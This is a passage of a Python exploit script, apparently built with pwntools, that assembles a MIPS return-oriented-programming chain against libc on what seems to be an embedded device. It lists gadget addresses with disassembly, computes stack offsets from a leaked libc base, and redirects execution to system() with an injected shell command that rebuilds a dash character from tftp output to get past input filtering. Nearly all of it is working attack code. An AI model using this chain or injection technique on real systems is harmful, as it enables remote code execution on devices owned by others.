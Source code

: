 ```
        # LOAD:0001B018                 lw      $ra, 0x1C+var_s18($sp)
        # LOAD:0001B01C                 lw      $s5, 0x1C+var_s14($sp)
        # LOAD:0001B020                 lw      $s4, 0x1C+var_s10($sp)
        # LOAD:0001B024                 lw      $s3, 0x1C+var_sC($sp)
        # LOAD:0001B028                 lw      $s2, 0x1C+var_s8($sp)
        # LOAD:0001B02C                 lw      $s1, 0x1C+var_s4($sp)
        # LOAD:0001B030                 lw      $s0, 0x1C+var_s0($sp)
        # LOAD:0001B034                 jr      $ra
        # LOAD:0001B038                 addiu   $sp, 0x38

        a0_EQ_sp24_c_JR_24sp  = 0x0004D144 # addiu $a0,$sp,0x24+var_C | jr 0x24($sp)
        # LOAD:0004D144                 addiu   $a0, $sp, 0x24+var_C
        # LOAD:0004D148                 lw      $ra, 0x24+var_s0($sp)
        # LOAD:0004D14C                 nop
        # LOAD:0004D150                 jr      $ra


        a0_EQ_sp28_c_JR_24sp  = 0x00058920 # addiu $a0,$sp,0x28+var_C | jr 0x24($sp)
        # LOAD:00058920                 addiu   $a0, $sp, 0x28+var_C
        # LOAD:00058924                 lw      $v1, 0x28+var_C($sp)
        # LOAD:00058928                 lw      $ra, 0x28+var_4($sp)
        # LOAD:0005892C                 sw      $v1, 0($s0)
        # LOAD:00058930                 lw      $s0, 0x28+var_8($sp)
        # LOAD:00058934                 jr      $ra

        print('')
        log.success("Ropping....")
        log.info(f"gadget lw_s4_0x48_JR_5Csp   -> {hex(libc_base + lw_s4_0x48_JR_5Csp)}")
        log.info(f"gadget t9_EQ_s4_JR_1C_p_18  -> {hex(libc_base + t9_EQ_s4_JR_1C_p_18)}")
        log.info(f"gadget a0_EQ_sp24_c_JR_24sp -> {hex(libc_base + a0_EQ_sp24_c_JR_24sp)}")
        log.info(f"_system                     -> {hex(libc_base + _system)}")

        c1 = ""
        c2 = ""

        c3 = "output=$(tftp 2>&1);spec=${output:47:1};" + ropcmd[1].replace('-','$(echo $spec)')

        log.info(f"Inject $a0: {c3}")

        _payload = {
                ret_offset: libc_base + lw_s4_0x48_JR_5Csp, # flow1
                (sp_offset + 0x48): t9_target,
                (sp_offset + 0x38 + 0x18): f'{c2}'.encode(), # $s6, 0x38+var_s18($sp)
                (sp_offset + 0x5c): libc_base + t9_EQ_s4_JR_1C_p_18, # flow2
                (sp_offset + sp2 + 0x1C + 0x10): f'{c1}'.encode(), # flow2 $s4-$s5 (caller), this is set via previous control-ed registers
                (sp_offset + sp2 + 0x34): libc_base + a0_EQ_sp24_c_JR_24sp, 
                (sp_offset + sp2 + sp3 + 0x24): libc_base + _system, # flow3
                (sp_offset + sp2 + sp3 + 0x24 + 0xC - 0x7): f'$({c3});'.encode()
            }

        print('')
        log.success("Stack looks like:")
        for key, value in _payload.items():
            try:
                log.info(f"offset: {hex(key)} : {hex(value)}")
            except TypeError:
                pass

        # $sp growth  -> +0x60 -> 0x38 
        #
        # | retaddr             | lw_s4_0x48_JR_5Csp   |  i. (gadget address) 
        # | (current sp)        |                      |     ($spsz1=0d127)
```
